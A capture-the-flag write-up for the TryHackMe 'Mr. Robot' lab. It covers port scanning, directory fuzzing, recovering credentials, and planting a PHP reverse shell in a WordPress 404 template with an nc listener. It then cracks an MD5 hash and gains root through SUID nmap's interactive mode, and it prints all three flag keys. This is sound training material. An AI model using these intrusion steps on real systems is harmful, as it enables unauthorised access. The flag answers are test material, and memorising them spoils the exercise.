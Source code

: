 # Solution

## URL
- [Mr. Robot](https://tryhackme.com/room/mrrobot)

## Steps

### Enumerate
1. Run a full NMAP port scan with: `sudo nmap -v -sS -p- -A 10.10.57.14 | tee nmap-scan.txt`.
2. We can see that only port 80 and 443 are open.
3. Let's try to open it in our browser and look around.
4. We can run a bunch of different commands, the source code of the index page also doesn't reveal much.
5. We can check `/robots.txt` and `/sitemap.xml`.
6. The sitemap seems to be empty but `/robots.txt` gave us some interesting results:
    ```
    User-agent: *
    fsocity.dic
    key-1-of-3.txt
    ```
7. Navigating to `/key-1-of-3.txt` gave us our first answer: `073403c8a58a1f80d943455fb30724b9`.
8. Next download the `fsocity.dic` file using: `wget http://10.10.57.14/fsocity.dic`.
9. Let us also sort and remove duplicates from this file using: `sort fsocity.dic | uniq > fsocity-clean.dic`
10. Trying to enumerate directories/files using this wordlist: `ffuf -u http://10.10.57.14/FUZZ -w fsocity-clean.dic -mc 200,301,302,403 -v | tee ffuf-fsocity-clean-dic-dir.txt`
11. We found an endpoint called `license` which has a base64 encoded string `ZWxsaW90OkVSMjgtMDY1Mgo=`.
12. Decoding that using this: `echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d` we get some credentials: `elliot:ER28-0652`.
13. We also got a WordPress login page at `/login`. Let's try the above credentials there.

### Shell
1. Logged in successfully. We need to figure out a way to get reverse shell now.
2. To prepare a reverse shell do this: `cp /usr/share/webshells/php/php-reverse-shell.php .`.
3. Change the IP in the file to your TryHackMe OpenVPN IP.
4. Set up a listner: `nc -lvnp 1234`. Make sure the port number is same in reverse shell.
5. In WordPress admin panel, go to `Apprearance > Editor`, then in the right panel select `404.php` and replace the contents of the file with our reverse shell code.
6. Click `Update File` and navigate to a URL that definitely does not exist on the server such as: `/chdjkschjksdackds`. This will try to load the 404.php file which actually is our reverse shell and give us a connection.
7. We can stabilise our shell using: `python3 -c 'import pty;pty.spawn("/bin/bash")'`.
8. Running `whoami` we get `daemon`.
9. Checking the `/home/robot` directory we found 2 files, `key-2-of-3.txt` which can only be read by user `robot`, which we are not currently and `password.raw-md5` which can be read by anyone, let us check that out.
10. `cat /home/robot/password.raw-md5` gives us this: `robot:c3fcd3d76192e4007dfb496cca67e13b`.

### PrivEsc
1. Cracking the hash at [crackstation](https://crackstation.net/) gives us the plain text: `abcdefghijklmnopqrstuvwxyz`.
2. Now let us try to login as `robot`, `su - robot`.
3. Logged in successfully. Navigate to `/home/robot` and read `key-2-of-3.txt`. Found key 2: `822c73956184f694993bede3eb39f959`.
4. Searching for `key-3-of-3.txt` using find command: `find / -name key-3-of-3.txt -type f 2> /dev/null`. Couldn't find anything, must be inside a directory we are not allowed to access such as `/root`.
5. Running `sudo -l` to check our privileges we find that we don't have sudo privileges.
6. Searching for SUID set files using: `find / -perm -u=s -type f 2>/dev/null`.
7. `/usr/local/bin/nmap` has SUID bit set, checking if it can be used for privesc at [GTFOBins](https://gtfobins.github.io/).
8. Trying the GTFOBins solution did not work since `--script` option is not recognized in this version of nmap. But in another [blog](https://www.adamcouch.co.uk/linux-privilege-escalation-setuid-nmap/) I found the `--interactive` flag.
9. Using `nmap --interactive` and then running `!whoami` gives `root`. Bingo!
10. Now lets again try to find `key-3-of-3.txt`, using: `!find / -name key-3-of-3.txt -type f 2> /dev/null`.
11. It is indeed inside `/root/`, lets read it: `!cat /root/key-3-of-3.txt`.
12. Got key 3: `04787ddef27c3dee1ee161b21670b4e4`.


### Task 2:
#### What is key 1?
1. The answer is `073403c8a58a1f80d943455fb30724b9`.

#### What is key 2?
1. The answer is `822c73956184f694993bede3eb39f959`.

#### What is key 3?
1. The answer is `04787ddef27c3dee1ee161b21670b4e4`.